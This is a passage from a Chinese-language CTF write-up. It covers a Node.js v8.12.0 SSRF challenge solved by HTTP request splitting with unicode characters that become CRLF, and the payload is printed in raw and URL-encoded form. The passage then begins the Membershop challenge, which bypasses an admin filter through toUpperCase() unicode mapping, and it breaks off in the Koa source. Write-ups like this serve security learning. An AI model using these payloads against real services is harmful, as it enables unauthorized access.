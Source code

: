 ```js
    }
})
server.get('/', function(request, result) {
    result.render('index');
    result.end()
})
server.get('*', function(req, result) {
    result.sendStatus(404);
    result.end()
});
```

突破口在它使用的Node.js的版本恰好有上述SSRF的问题

```js
result.setHeader('X-Node-js-Version', 'v8.12.0')
result.setHeader('X-Express-Version', 'v4.16.3')
```

入手点的代码代码就是这里了

![image-20211205210752342](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211205210752342.png)

现在就说想办法绕过白名单的审查并构造payload；我们需要第一个请求指向`/proxy/internal_website/public_notes`，第二个请求指向`/flag/amiz`，让flag存在`public/temp/md5(127.0.0.1amiz)`路径下

```
public_notes\u{0120}HTTP/1.1\u{010D}\u{010A}Host:\u{0120}127.0.0.1\u{010D}\u{010A}\u{010D}\u{010A}GET\u{0120}/\u{0166}\u{016c}\u{0161}\u{0167}/amiz
```

```
/proxy/internal_website/public_notes%C4%A0HTTP%2F1.1%C4%8D%C4%8AHost%3A%C4%A0127.0.0.1%C4%8D%C4%8A%C4%8D%C4%8AGET%C4%A0%2F%C5%A6%C5%AC%C5%A1%C5%A7%2Famiz
```

## [安洵杯 2019]Membershop

![image-20211206224942653](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211206224942653.png)

admin会被过滤，那就先简单登入

![image-20211206225301864](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211206225301864.png)

抓包后通过session可以看出是koa框架

这里出题人说很容易联想到后端使用`toUpperCase()`的转换，用拉丁文越权登录`admın`，之前也有一次做题用到这个点了，但是在这里没有想起来，我的

![image-20211206225648044](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211206225648044.png)

这下可以看源码了

```js
const Koa = require('koa')
const router = require('koa-router')
const session = require('koa-session')
const bodyParser = require('koa-bodyparser')
const isString = require('underscore').isString
const views = require('koa-views')
const path = require('path')
const static = require('koa-static')
const http = require('http')
const fs = require('fs')
const md5 = require('md5');
const qs = require('qs');

const app = new Koa()
const home  = new router()
```